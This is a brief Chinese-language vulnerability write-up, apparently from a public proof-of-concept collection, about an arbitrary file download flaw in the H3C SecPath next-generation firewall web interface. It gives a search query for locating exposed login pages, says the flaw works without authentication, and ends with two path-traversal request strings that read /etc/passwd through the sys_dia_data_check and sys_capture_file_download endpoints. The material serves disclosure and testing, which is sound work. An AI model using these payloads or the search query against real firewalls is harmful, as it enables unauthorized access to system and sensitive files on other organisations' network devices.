

# H3C SecPath下一代防火墙 sys_dia_data_check 任意文件下载漏洞

## 漏洞描述

H3C SecPath 下一代防火墙  存在功能点导致任意文件下载漏洞，攻击者通过漏洞可以获取敏感信息

## 漏洞影响

<a-checkbox checked>H3C SecPath</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Web user login"</a-checkbox></br>

## 漏洞复现

登录页面如下


存在漏洞点的功能有两个





点击下载抓包更改请求


并且在未身份验证的情况中，也可以请求下载敏感文件，验证POC

```plain
/webui/?g=sys_dia_data_check&file_name=../../etc/passwd

/webui/?
g=sys_capture_file_download&name=../../../../../../../../etc/passwd
```